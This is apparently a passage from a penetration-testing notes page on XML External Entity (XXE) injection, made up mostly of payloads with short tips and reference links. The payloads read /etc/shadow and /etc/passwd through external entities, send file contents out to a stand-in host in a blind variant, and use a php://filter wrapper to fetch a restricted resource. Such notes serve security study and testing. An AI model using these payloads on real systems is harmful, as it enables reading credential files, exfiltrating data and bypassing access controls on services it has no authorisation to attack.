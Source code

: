 ### XXE: File Disclosure

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [
<!ENTITY ent SYSTEM "file:///etc/shadow">]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

### XXE: Local File Inclusion

>[!info]
>See also [Path Traversal](Path%20Traversal.md) and [File Inclusion (LFI & RFI)](File%20Inclusion%20(LFI%20&%20RFI).md) vulnerabilities

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```

>[!tip]
>With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.


### XXE: Blind Local File Inclusion

>[!info]
>See also [Path Traversal](Path%20Traversal.md) and [File Inclusion (LFI & RFI)](File%20Inclusion%20(LFI%20&%20RFI).md) vulnerabilities

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
```

### XXE: Access Control Bypass (Loading Restricted Resources - PHP example)

>[!info]
>See also [Access control vulnerabilities](Access%20control%20vulnerabilities.md)

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```


[^param-ent]: https://www.w3.org/TR/xml/#wfc-PEinInternalSubset
[^1]: [File Inclusion (LFI & RFI)](File%20Inclusion%20(LFI%20&%20RFI).md)
[^2]: [Path Traversal](Path%20Traversal.md)
[^3]: [Server Side Request Forgery (SSRF)](Server%20Side%20Request%20Forgery%20(SSRF).md)
[^xxe2shell]: [ORACLE PEOPLESOFT REMOTE CODE EXECUTION: BLIND XXE TO SYSTEM SHELL](https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce), ambionics.io
[^dtd-finder]: [dtd-finder list](https://github.com/GoSecure/dtd-finder/tree/master/list?ref=labs.watchtowr.com), GitHub